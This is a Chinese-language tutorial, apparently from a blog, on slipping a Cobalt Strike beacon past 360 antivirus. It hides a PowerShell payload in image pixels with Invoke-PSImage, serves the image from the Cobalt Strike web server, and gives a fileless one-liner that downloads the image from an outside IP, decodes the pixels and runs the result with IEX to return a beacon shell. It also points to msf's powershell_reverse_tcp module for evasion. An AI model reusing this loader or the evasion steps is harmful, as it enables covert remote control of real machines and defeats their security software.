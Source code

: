# Cobalt Strike beacon 免杀上线 [ Powershell ]

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/26.html](http://book.iwonder.run/Tools/Cobalt Strike/26.html)

> 模拟目标环境:
> 
> AV-Server 192.168.3.58 装有最新版 360 套装 [ 卫士 + 杀毒 ] 2008r2 64 位系统
> 
> 第一步,创建监听器,并用对应的监听器生成的 "Powershell payload "

![image](img/8da22ecdfcb38347ba6204dc35988e8b.png)

> 第二步,回到本地机器上,先准备好一张大点的图片,比如随便去找一张"1920 * 1080"的超清图,之所以要大点,主要是为了防止等会儿存不 payload,然后再借助"Invoke-PSImage.ps1 " 脚本将上面生成好的"powershell payload" 分散存到图片的各个像素中,并生成用于执行该 payload 的 powershell 代码,特别注意下那个 payload 图片链接,等会儿要把它替换成我们自己的,具体如下

![image](img/e768ae899c9fd09533c39b41642cf48d.png)

> 此时,我们不妨来简单对比着看下存有 payload 的图片和原图的大小,由于是把 payload 分散存到图片的各个像素里,图片自身的体积也被瞬间撑大了数倍

![image](img/91b557019b947f32ab87a6df4a2c32f8.png)

> 第三步,将带有 payload 的图片挂到我们的 CobaltStrike "web 服务器[host]"上,生成如下链接,因为我们等会儿需要远程来加载这个链接以读取其中的 payload 并执行

![image](img/d6d0ffddb6d8d78aa66b0895d4d19e94.png)

> 第四步,去目标机器上准备执行 payload [ 全程无文件 ],此处注意,要先将用于执行 payload 的那段代码里的 payload 图片地址改成上面准备好的那个链接,如下

```
C:\>powershell -exec bypass
PS C:\> sal a New-Object;Add-Type -AssemblyName "System.Drawing";$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://18.23.76.81:80/final.png"));$o=a Byte[] 3840;(0..1)|%{foreach($x
in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..3333])); 
```

![image](img/dbc575ca675d7d4bea8e8154c80ed63b.png)

> 最终,当我们执行完那段 powershell 代码便会看到 beacon shell 被正常弹回,当然啦,这儿还有个很大的问题就是,实战中,我们肯定不可能像这样直接在目标桌面里打开个 cmd 再进到 powershell 去执行 payload,但我此时就是想执行那段 powershell payload 弹个 beacon 的 shell 回来操作,又该怎么办呢,有个比较简单的办法,就是可以配合 msf 一起,直接利用 payload/cmd/windows/powershell_reverse_tcp 模块免杀弹回个 ps 的 shell 来操作就好了,具体细节篇幅原因不再多说,非常简单,作为扩展,弟兄们可以抽空自行去实践

![image](img/e9e90644eac335164637532e1d280163.png)

